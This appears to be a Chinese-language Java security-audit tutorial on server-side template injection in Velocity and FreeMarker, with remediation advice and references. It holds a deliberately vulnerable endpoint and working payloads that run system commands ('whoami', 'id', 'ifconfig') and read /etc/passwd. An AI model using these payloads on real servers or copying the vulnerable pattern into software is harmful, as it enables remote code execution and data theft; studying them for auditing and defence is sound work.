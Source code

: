 # java代码审计-ssti

## 0x01漏洞挖掘

### Velocity

```java
@RequestMapping("/ssti/velocity")
public String velocity(@RequestParam(name = "content") String content) {
    Velocity.init();
    VelocityContext velocityContext = new VelocityContext();

    velocityContext.put("username", "seaii");

    StringWriter stringWriter = new StringWriter();
    Velocity.evaluate(velocityContext, stringWriter, "test", content);
    return stringWriter.toString();
}
```

利用方式：

```
#set ($exp = "exp");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami")
```

### FreeMarker

```java
@RequestMapping("/ssti/freemarker")
public String freemarker() throws IOException, TemplateException {
    Configuration configuration = new Configuration(Configuration.VERSION_2_3_23);
    configuration.setClassForTemplateLoading(this.getClass(), "/templates");
    Template template = configuration.getTemplate("test.ftl");

    Map<String, Object> rootMap = new HashMap<String, Object>();
    rootMap.put("username", "passwd");
    StringWriter stringWriter = new StringWriter();
    template.process(rootMap, stringWriter);
    return stringWriter.toString();
}
```

freemarker与velocity的攻击方式不太一样，freemarker可利用的点在于模版语法本身，直接渲染用户输入payload会被转码而失效，所以一般的利用场景为上传或者修改模版文件。

利用方式如下：

命令执行1：

```java
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }
```

命令执行2：

```java
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
<#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.lang.ProcessBuilder","ifconfig").start().getInputStream())) >        


<#list 1..10000 as t>
    <#assign line=br.readLine()!"null">
    <#if line=="null">
        <#break>
    </#if>
    ${line}
    ${"<br>"}
</#list>
```

文件读取：

```java
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
<#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.io.FileInputStream","/etc/passwd"))) >        


<#list 1..10000 as t>
    <#assign line=br.readLine()!"null">
    <#if line=="null">
        <#break>
    </#if>
    ${line?html}
    ${"<br>"}
</#list>
```

将上面的payload写入到模版文件保存，然后让freemarker加载即可。

## 0x02漏洞防御

### Velocity

velocity到目前最新版本也没有提供沙盒或者防御方式，只能禁止或严格过滤用户输入进入**Velocity.evaluate**。

### FreeMarker

最简单的方式是使用**TemplateClassResolver**，文档在这：

[https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html](https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html)

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191210230921.png)

可根据实际需求选择这两种方式，代码实现如下：

```java
configuration.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
```

但这并不是一劳永逸的防御方式，如果配置不当，依然会造成安全问题：

[Freemarker模板注入 Bypass](https://xz.aliyun.com/t/4846)

## 0x03参考链接

[服务端模板注入：现代WEB远程代码执行（补充翻译和扩展）](https://wooyun.js.org/drops/%E6%9C%8D%E5%8A%A1%E7%AB%AF%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5%EF%BC%9A%E7%8E%B0%E4%BB%A3WEB%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%EF%BC%88%E8%A1%A5%E5%85%85%E7%BF%BB%E8%AF%91%E5%92%8C%E6%89%A9%E5%B1%95%EF%BC%89.html)

[https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)

[Freemarker模板注入 Bypass](https://xz.aliyun.com/t/4846)